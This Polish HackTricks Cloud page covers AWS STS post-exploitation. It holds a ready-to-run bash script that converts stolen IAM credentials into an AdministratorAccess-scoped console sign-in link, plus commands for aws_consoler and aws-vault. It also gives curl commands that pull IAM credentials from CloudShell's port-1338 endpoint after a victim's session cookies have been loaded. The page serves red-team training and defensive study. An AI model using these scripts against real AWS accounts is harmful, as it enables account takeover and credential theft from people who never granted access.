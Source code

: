 # AWS - STS Post Exploitation

{% hint style="success" %}
Naucz się i ćwicz hakowanie AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz hakowanie GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## STS

Więcej informacji:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Od IAM Creds do Konsoli

Jeśli udało Ci się uzyskać jakieś poświadczenia IAM, możesz być zainteresowany **dostępem do konsoli webowej** za pomocą poniższych narzędzi.\
Zauważ, że użytkownik/rola musi mieć uprawnienie **`sts:GetFederationToken`**.

#### Niestandardowy skrypt

Poniższy skrypt użyje domyślnego profilu i domyślnej lokalizacji AWS (nie gov i nie cn), aby dać Ci podpisany URL, którego możesz użyć do zalogowania się do konsoli webowej:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Możesz **wygenerować link do konsoli webowej** za pomocą [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Upewnij się, że użytkownik IAM ma uprawnienia `sts:GetFederationToken`, lub zapewnij rolę do przejęcia.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) to narzędzie do bezpiecznego przechowywania i uzyskiwania dostępu do poświadczeń AWS w środowisku deweloperskim.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Możesz również użyć **aws-vault**, aby uzyskać **sesję konsoli przeglądarki**
{% endhint %}

#### Z Konsoli do IAM Creds

[**Oryginalnie odkryte w tym poście**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), jeśli uda Ci się uzyskać dostęp do konsoli webowej (może ukradłeś ciasteczka i nie mogłeś uzyskać dostępu do folderu .aws), możesz uzyskać tokeny IAM dla tego użytkownika przez **CloudShell**.

CloudShell udostępnia poświadczenia IAM przez **nieudokumentowany endpoint na porcie 1338**. Po załadowaniu ciasteczek sesji ofiary do przeglądarki, możesz przejść do CloudShell i wydać następujące polecenia, aby uzyskać poświadczenia IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) albo **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}
